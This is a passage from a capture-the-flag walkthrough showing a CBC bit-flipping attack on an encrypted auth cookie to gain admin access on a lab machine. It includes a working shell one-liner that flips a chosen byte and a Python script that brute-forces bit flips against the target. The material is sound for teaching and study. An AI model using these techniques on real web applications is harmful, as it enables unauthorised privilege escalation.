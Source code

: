 I could replaced any character in admin with any other character one bit off.

If I successfully guessed that the plaintext is `user=qdmin`, then I can do
this in a targeted way. I can see there are 24 bytes of ciphertext:

    
    
    root@kali# echo "jQHLsfJNbqtkfIJHOMKjgJBdENqKUpEA" | base64 -d | xxd
    00000000: 8d01 cbb1 f24d 6eab 647c 8247 38c2 a380  .....Mn.d|.G8...
    00000010: 905d 10da 8a52 9100                      .]...R..
    

I want to target the data that will be XORed against the intermediate state.
So to get the sixth byte (q –> a), I’ll flip the sixth byte in the IV, 0x4d.
0x4d is `0100 1101` in binary. To flip the bit that’s different between `a`
and `q`, I’ll change it to `0101 1101`, which is 0x5d.

I can use `sed` to change that byte, and then `xxd -r` to convert back to
binary and `base64` to encode:

    
    
    root@kali# echo "jQHLsfJNbqtkfIJHOMKjgJBdENqKUpEA" | base64 -d | xxd | sed 's/ 38c2 / 38d2 /' | xxd -r | base64
    jQHLsfJNbqtkfIJHONKjgJBdENqKUpEA
    

If I add this cookie and visit `index.php`, it gives the admin page.

#### Exploit - Brute

More likely is that I don’t know the structure of the underlying plaintext.
There could be more information in the cookie than just the username. A more
reliable attack is to brute over all the bits flipping each to see if it
works.

There’s a way to do this attack using Burp Intruder, but I don’t have a copy
of the pro version, and it’s so throttled that I can write a script to do it
faster than running it. Here’s my Python script to try flipping each bit:

    
    
    #!/usr/bin/env python3
    
    import base64
    import requests
    
    
    def flip_bit(byte, pos):
        return byte ^ pow(2,pos)
    
    
    cookie = 'jQHLsfJNbqtkfIJHOMKjgJBdENqKUpEA'
    cookie_bin = base64.b64decode(cookie)
    
    for i in range(len(cookie_bin)):
        for j in range(8):
            mod_byte = flip_bit(cookie_bin[i], j)
            mod_cookie_bin = cookie_bin[:i] + bytes([mod_byte]) + cookie_bin[i+1:]
            mod_cookie = base64.b64encode(mod_cookie_bin).decode()
            resp = requests.get('http://10.10.10.18/index.php', cookies={'auth': mod_cookie})
            if 'admin' in resp.text:
                print(f'Flip byte {i}, xor by 0x{pow(2,j):02x} - new cookie: {mod_cookie}')
                exit()
    